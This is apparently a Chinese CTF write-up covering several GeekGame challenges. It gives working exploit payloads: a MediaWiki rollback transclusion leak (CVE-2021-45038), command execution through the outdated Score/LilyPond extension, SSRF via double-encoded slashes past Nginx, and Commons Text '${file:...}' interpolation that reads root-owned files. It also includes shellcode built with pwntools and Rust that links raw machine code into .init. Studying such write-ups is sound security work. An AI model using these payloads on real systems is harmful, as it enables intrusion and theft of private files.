浏览了一圈 MediaWiki 的 CVE，从一个 CVE 里面点进 [2021-12 security release/FAQ](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)。发现了几个比较有意思的 CVE：

- CVE-2021-44858: The "undo" feature (`action=edit&undo=##&undoafter=###`) allowed an attacker to view the contents of arbitrary revisions,  regardless of whether they had permissions to do so. This was also found in the "mcrundo" and "mcrrestore" actions (`action=mcrundo` and `action=mcrrestore`).
- CVE-2021-45038: The "rollback" feature (`action=rollback`) could be passed a specially crafted parameter that allowed an attacker  to view the contents of arbitrary pages, regardless of whether they had  permissions to do so.
- CVE-2021-44857: The "mcrundo" and "mcrrestore" actions (`action=mcrundo` and `action=mcrrestore`) did not properly check for editing permissions, and allowed an attacker to take the content of any arbitrary revision and save it on any page  of their choosing. This affects both public wikis and public pages on  private wikis.

网页上有一节：How can I see if someone exploited it on my wiki?

提到了

> For the rollback bug, look for `action=rollback&from=...` where the "from" parameter is a template transclusion (for example, `from={{:private page}}`).

那么访问以下网址就能拿到 flag1 了

```
https://prob07-xxxxxxx.geekgame.pku.edu.cn/index.php?action=rollback&from={{:Flag}}
```

页面上会有几段重复的

> 无法回退[[User:You can use the following username and password to login:
>
> - User name: Flag1
> - Password: flag{insecure_01d_mediavviki}
>
> Try RCE to find Flag 2.|

如何 RCE 呢？我登陆进去翻了翻配置页面，好像没有能够注入 PHP 代码的选项。

我又去看了一眼软件版本，发现唯一一个安装的扩展程序 `Score` 的版本很旧： `0.3.0 (dd534e1) 2019年9月17日 (二) 13:38`。

我就怀疑这个扩展程序存在 RCE 漏洞。

[去这个扩展程序的主页](https://www.mediawiki.org/wiki/Extension:Score)上瞧了瞧，有一段大大的

> :information_source:
>
> The Score extension requires setting up an external service, [Shellbox](https://www.mediawiki.org/wiki/Special:MyLanguage/Shellbox), to securely process musical scores via LilyPond. Please review the information in [#Security concerns](https://www.mediawiki.org/wiki/Extension:Score#Security_concerns) and the [2021 security advisory](https://www.mediawiki.org/wiki/Special:MyLanguage/Extension:Score/2021_security_advisory) before installing this extension. 

那么拿到 flag2 的关键就是它了。

在 [Security Advisory 页面](https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory)可以找到 [T257062 这个讨论](https://phabricator.wikimedia.org/T257062)。这个讨论里有 RCE 的例子，可以拿来直接用。



试了一下，确实可行。可是 `/bin/false` 的退出码应该是 1 啊。。。为什么是 256 呢？

然后再把讨论里面的检测文件是否存在的例子搬过来看看 flag 文件在哪:



那么 flag 文件就存放在 `/flag1` 和 `/flag2` 里。我们怎么把它读出来呢？

我去网上搜了一圈 scheme 里怎么读文件，但是由于我不会 LISP，我没整出来。

那么就用返回码+Python 把字符读出来吧：

```wiki
<score>\new Staff <<{c^#(number->string (system "python -c 'exit(ord(open(\"/flag2\").read()[i]))'")))}>></score>
```

读取 `/flag2` 的第 i(换成数字) 个字符，将其 ASCII 码作为进程的退出码。



这次我看出来显示的值的规律了。把数值除以 256 即可得到进程的退出码。最后 5 个结果退出码是 1， 表明下标越界报错了，我们把它们忽略掉即可。

```python
digits = [26112, 27648, 24832, 26368, 31488, 27648, 26880,
          12544, 30976, 28672, 12288, 28160, 25600, 24320,
          25344, 24832, 28160, 24320, 12544, 25856, 24832,
          25600, 24320, 29696, 28416, 24320, 29184, 25344, 25856, 32000]
byts = bytes([int(digit/256) for digit in digits])
print(byts.decode())
```

运行一下，得到 `flag{li1yp0nd_can_1ead_to_rce}`

## 企业级理解

我先观摩了一下被打印出来的机密 URL 代码，没发现什么 bug。

后来想了想代码可能没有处理 URL 末尾带着斜杠的情形，果然成功了。

访问 https://prob08-xxxxx.geekgame.pku.edu.cn/admin/ 即可 "Passwordless" login.

然后试试 `/admin/query/` 这个接口：

```shell
$ http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/query/'
...
<div class="container">
  <form class="form-signin" method="post" action="/admin/query">
    <h2 class="form-signin-heading">PKU GeekGame 2.0</h2>
    <p>
      <select name="type" class="custom-select d-block w-100" placeholder="请选择" required autofocus>
        <option value="none" selected disabled hidden>请选择选项</option>
        <option value="PKU" name="type" selected="selected">PKU</option>
        <option value="PKUGame" name="type">PKUGame</option>
        <option value="PKU_GeekGame" name="type">PKU_GeekGame</option></option>
      </select>
    </p>
    <p>
      <label for="value" class="sr-only">Value</label>
      <input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="{&quot;type&quot;:&quot;PKU&quot;,&quot;value&quot;:&quot;Welcome to PKU GeekGame 2.0!&quot;}">
...
```

把表单的 `type` 字段改为 `PKU_GeekGame` ，做个 POST 请求，即可拿到 flag1.

```sh
$ http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/query/' type="PKU_GeekGame"
...
      <input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="{&quot;type&quot;:&quot;PKU_GeekGame&quot;,&quot;value&quot;:&quot;flag1{8a97cd0b-adec-4e63-bd46-3e6c60ea9d78} 恭喜你发现flag1，还有其他flag等待你发现哦&quot;}">
...
```

去看看 `/admin/source_bak/`  这个接口下载下来的源代码。

不难发现 `/admin/{index}/` 这个路由会给 `http://localhost:8079/{index}` 发请求，请求的 body 是 `queryBean` 的 type。响应会被放到 `queryBean` 的 value 里。

那么我们怎么向 `http://localhost:8080` 发送请求呢？

经过尝试，得到一个方案（`%3A` 是冒号的 URL 转义）：

```sh
$ http 'https://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080'  
...
      <input type="text" id="value" class="form-control" placeholder="Value" required autofocus name="value" value="Endpoints:
/bonus
/source_bak
">
...
```

我们发现 8080 端口上运行着 `/bonus` 和 `/source_bak` 两个路由，可是我们怎么访问它们呢。

```sh
http 'https://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080/bonus'
http 'https://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080/bonus/'
```

这两条命令都会得到 404.

假如我们把斜杠转义一下呢？

```sh
$ http 'https://prob08-8dfql2e4.geekgame.pku.edu.cn/admin/localhost%3A8080%2Fbonus'
...
<!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1></body></html><!doctype html><html lang="en"><head><title>HTTP Status 400 – Bad Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 – Bad Request</h1></body></html>
```

我们得到了来自 Nginx 的 400 页面。怎么办呢？

我 Google 搜了一下，找到了一种办法。

再把 `%` 给 转义一遍，得到 `%25`, 跟原来的 `2F` 接起来，得到 `%252F`.

这样的话， URL 在过 Nginx 的时候，`%252f` 变成 `%2f`, 再被 jvav 解码一遍就变成了 `/`.

那我们就能给 `/bonus` 发请求了

```sh
$ http -f 'http://prob08-8dfql2e4.geekgame.pku.edu.cn/admin/localhost%3A8080%252Fbonus' \
    type=aaa value=aaa |
    htmlq --attribute value input |
    jq .value
"flag2{f2d9cc00-180b-404d-8117-d2e712c2e57b} 恭喜你发现flag2，还有其他flag等待你发现哦"
```

然后我们去看一看源码备份 `/source_bak`. 把源码下载到 `source.java`

```sh
http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080%252Fsource_bak' \
    type=aaa value=aaa |
    htmlq --attribute value input > source.java
```

不难发现 `/bonus` 路由会在 `type==CommonsText` 时对 `queryBean` 里的 Value 执行一个字符串变量插值（在去除危险词汇之后）。

```java
@RequestMapping("/bonus")
public QueryBean bonus(QueryBean queryBean) {
    if(queryBean.getType().equals("CommonsText")) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        interpolator.setEnableSubstitutionInVariables(true);

        String value = replaceUnSafeWord(queryBean.getValue());
        String resultValue = interpolator.replace(value);
        queryBean.setValue(resultValue);
    } else {
        // flag3藏在/root/flag3.txt等待你发现
    }
    return queryBean;
}
```

因为去除危险词汇的函数只遍历了一遍，所以我们可以写 `jajsva`，它被替换之后就是 `java` 这个危险词汇。

我 Google 搜了一下 `StringSubstitutor`， 发现它能直接把文件插进字符串里，然而 `file` 并不在危险词汇里。。。不知道这算不算非预期做法。。去除危险词汇的逻辑丝毫没被我碰到。

```sh
$ http -f 'http://prob08-xxxxxx.geekgame.pku.edu.cn/admin/localhost%3A8080%252Fbonus' \
    type=CommonsText value='${file:UTF-8:/root/flag3.txt}' |
    htmlq --attribute value input |
    jq .value
"flag{e088175f-71cd-4841-96fe-40092ddfdd23}"
```

## 这也能卷(Flag · 摆)

这题我在 premium 页面一打开 F12 就遇到了 中国大学 MOOC 式的反调试。

那就先禁用断点吧。



然后在输入框里随便输入一点东西。。。。恢复断点,诶诶诶，这不是 flag 吗？？？



可能是非预期解吧。。（也有可能是预期解吧。。。毕竟第二阶段的提示说逆向 `premium.js` 会变的不幸）

这道题的后面两问我都没做出来。我实在想不出来在这样严格的正则表达式的过滤之后，如何 RCE。

## 简单题

因为我在算地址偏移的时候犯了很愚蠢的错误，我没能在第一阶段结束前作出这道题。所以喜提分数 -67%.

写个 Python 脚本来生成机器码。

先用 shellcraft 生成实际要执行的机器码。

然后对于目标机器码的每一个字节。我们生成一条 `mov` 指令把这个字节追加所有 mov 指令的后面去。

也就是说，生成的一大坨 `mov` 指令会把实际要执行的机器码释放出来。`mov` 指令执行完之后，释放出来的指令会被执行。

```python
from pwn import *
from base64 import b64encode
code = shellcraft.amd64.linux.cat("/flag.txt")

print(code)
byt = asm(code, arch='amd64')
print(byt.hex())
l = len(byt)
print(len(byt))

asms = []
for (i, b) in enumerate(byt):
    asms.append(f"movb [rip+{ l * 7 - 0x7 * i + i - 6 } ], {b}")
shellcode = asm('\n'.join(asms), arch="amd64")
with open("prob10/a.bin", "wb") as f:
    f.write(shellcode)

print(shellcode)
print(b64encode(shellcode))
```



## 编原译理习题课 · 实验班

安全的 Rust 代码怎么会段错误呢？？？

安全的 Rust 代码怎么会段错误呢？？？

安全的 Rust 代码怎么会段错误呢？？？

或许爆栈可以段错误。Try 了 Try。没成功。报栈被 Rust 捕捉到了，最后退出码不是段错误的退出码。

于是我便去网上搜索 `Safe rust code that segfaults`, 没有找到任何可行的代码

那么，或许我们让程序以 11 这个状态码退出就可以？并不行。退出程序的系统调用被沙盒 ban 掉了。但是沙盒里留了个 `SYS_exit_group`. 没找到调这个系统调用的方法。

或许我们可以把 `forbid` 的限制给绕过去？

试了试 `#[allow(unsafe_code)]` 结果不行。。Google 搜了搜， 找到了 `#[allow_internal_unsafe]` ， 结果也不行（在低版本的 rust 里可以，不过[这个问题后来被修了](https://github.com/rust-lang/rust/issues/56768)）。

那么就去研究一下 rust 处理爆栈的代码吧。

简单地搜索一下就能找到这个代码：https://github.com/rust-lang/rust/blob/008bc1d587b4f9d7197eb159922dd2080eea9284/library/std/src/sys/unix/stack_overflow.rs#L57-L102

甚至不用看代码了。。注释里就把逻辑写清楚了。

> We've got guard pages  (unmapped pages) at the end of every thread's stack, so **if a thread ends up running into the guard page it'll trigger this handler. We want to detect these cases and print out a helpful error saying that the stack has overflowed.** All other signals, however, should go back to what they were originally supposed to do.

如果爆栈爆到 guard page 里面去，就会被这个 handler 捕捉到，不会触发 Segfault。

那么我们让栈一次爆过 guard page, 让栈指针放飞自我，翱翔到 guard page 后面去就可以触发 Segmentation Fault 了。

这要怎么做呢？搞个结构体，让它对齐到一个很大的数字上，一次直接把整个 Guard Page 越过去，应该就能 Segfault 了。

经过几次尝试，我写出了下面的代码。

```rust
#![forbid(unsafe_code)]
#[repr(align(268435456))]
struct X {
    a: [usize; 100],
}
pub fn run() {
    // safe rust code that segfaults
    let mut x = X { a: [2; 100] };
    for i in 1..100 {
        x.a[i] = i;
    }
    for i in 1..100 {
        print!("{}", x.a[i]);
    }
}
//EOF
```

下面几个循环只是为了防止编译器直接把这个变量优化掉（不然的话，在 release 模式下实测会被优化掉）。交上去，过了。

那么第二问怎么做呢？Safe Rust 怎么读取到 Caller Stack Frame 里的东西呢？不会。。。

后来想到了 ELF 的 `.init` 段和 `.fini` 段。`.init` 段的代码会在程序启动前执行。说不定我能把一个 Rust 函数链接到 `.init` 段,这正好也绕过了沙盒对系统调用的限制。

```rust
#[link_section = ".init"]
pub fn fx() {
    let mut file = File::open("/flag2").unwrap();
    let mut s = String::new();
    file.read_to_string(&mut s).unwrap();
    println!("{}", &s);
}

pub fn run() {
    fx();
}
```

结果编译报错了

```rust
error: declaration of a function with `link_section`
  --> src/program.rs:51:1
   |
51 | #[link_section = ".init"]
   | ^^^^^^^^^^^^^^^^^^^^^^^^^
   |
   = note: the program's behavior with overridden link sections on items is unpredictable and Rust cannot provide guarantees when you manually override them
```

不过使用题目提供的容器里的编译器编译并不会出现编译错误，应该是高版本的 rust 编译器在 `#![forbid(unsafe_code)]` 控制范围的代码里禁止了这种行为。

运行一下。。段错误了。。。不知道为什么...wo 不想让它段错误的时候它却段错误了。

在拿到第二个 flag 之后我才意识到这可能才是这道题目的预期解。第一个 flag 是 `flag{W0w-YoU_PROved-tHi5_I5-un5OuNd}`, 而第二个 flag `flag{aNd-yOu-caN-eXp10it-UNSouNdne55}` 很明显的指出这两问的解法有很强的关联性。我之前的爆栈做法并不能用来做第二问（或者由于我的水平很低，想不到怎么通过爆栈来做第二问）。

通过搜索 `Rust execute shellcode` ，我们可以找到[这个帖子](https://users.rust-lang.org/t/how-can-i-execute-hex-opcodes-directly-in-rust/31123/13)。

诶？？？你竟然可以在 Safe Rust（高版本的 Rust 已经在 `#![forbid(unsafe_code)]` 的情况下禁止这种行为） 里往 ELF 里链接一段机器码？？？

```rust
#[no_mangle]
#[link_section = ".text"]
static hello_world: [u8; 38] = *b"\x6a\x01\x5f\x89\xf8\x6a\x0d\x5a\xeb\x0a\x5e\x0f\x05\x6a\x3c\x58\xff\xcf\x0f\x05\xe8\xf1\xff\xff\xff\x48\x65\x6c\x6c\x6f\x20\x77\x6f\x72\x6c\x64\x21\x0a";
```

我用 pwntools 生成了一段读取并输出 `/flag2` 的机器码（因为我太菜了，不会写 Shellcode）。

```rust
#![forbid(unsafe_code)]
use std::fs::File;
use std::io::Read;
#[link_section = ".init"]
#[no_mangle]
pub static  hello_world: [u8; 53] = *b"H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8.gm`f3\x01\x01H1\x04$j\x02XH\x89\xe71\xf6\x0f\x05A\xba\xff\xff\xff\x7fH\x89\xc6j(Xj\x01_\x99\x0f\x05";

#[link_section = ".init"]
pub fn fx() {
    let mut file = File::open("/flag2").unwrap();
    let mut s = String::new();
    file.read_to_string(&mut s).unwrap();
    println!("{}", &s);
}
pub fn run() {}
//EOF
```

用一段代码拿到两个 flag， 双倍的快乐！（然而我没搞懂为什么链接到 init 段的 rust 函数会触发段错误）



## 381654729

[Google 搜索 381654729](https://www.google.com/search?q=381654729)，点进[第一个搜索结果](https://proofwiki.org/wiki/Polydivisible_Number/Examples/381,654,729)。我们可以看到

> The [integer](https://proofwiki.org/wiki/Definition:Integer) 381654729 is the only [polydivisible number](https://proofwiki.org/wiki/Definition:Polydivisible_Number) which is [penholodigital](https://proofwiki.org/wiki/Definition:Penholodigital_Integer).

polydivisible 的意思就是这个数的前 n 位可以被 n 整除。

penholodigital 的意思就是除了 0 以外的每一种数字出现且只出现了一次，而且这个数字不含 0。

读一读题目的代码：

```python
num=int.from_bytes(flag,"big")^2511413510786747614781144641523995174283920197322696848786
num_len=len(hex(num))-2
for i in range(1,num_len+1):
    if (num>>((num_len-i)*4))%i>0:
        print("Wrong")
        exit()
```

不难看粗我们需要找一个数，使它与 `2511413510786747614781144641523995174283920197322696848786` 的异或的结果是一个 16 进制意义下的 polydivisible number。（并没有要求 penholodigital ）

那么我们来个深度优先搜索就能把这道题解出来了。

```python
num = 2511413510786747614781144641523995174283920197322696848786
byt = num.to_bytes(24, 'big')[4:]
print(byt)
# 获得大数字的 16 进制表示。
hix = byt.hex()

hexes = [hex(i)[2:] for i in range(0, 16)]
allowed_chars = range(0x20, 0x7f)

def solve(i, prev):
    prefix = hix[:i+1] # 前 i 个 16 进制位
    prefix_num = int(prefix, base=16)
    for dig in hexes:
        # 遍历 0~F, 康康这个 hex digit 能不能整除。
        next_prev = prev + dig
        cur_num = int(next_prev, base=16)
        if (prefix_num ^ cur_num) % i == 0:
            if i >= 39:
                # 输出 flag
                print(bytes.fromhex(next_prev).decode())
            else:
                solve(i+1, next_prev)
solve(2, '7b')
```

注意，我们已经知道 flag 的前四个字母是 `flag`， 对应 16 进制数 `7b`. 而 `7b` 与大数字的开头的 `71` 做异或会导致最高位变成 0！所以我们直接给 solve 函数传递初始参数 `2` 和 `7b` 来规避这个问题。

```sh
$ python rev.py
b'q\xc2#\x97I\xa3\xd0\x8ead\xaa\xafR\xed\xf7\xafE\xe8u\x92'
{fouNd_Magic_nuMBer}
```

## 没做出来的题

唉。最难受的事情，莫过于你只解出 flag 的一半。。。而你死活都解不出 flag 的另一半。

没错！说的就是你！乱码还原和方程组！



方程组嘛。flag1 很简单，



flag2 嘛，前面的字符都很简单。



最后几个字符解不出来，气死了。。。（字丑。。。请忽略QAQ）

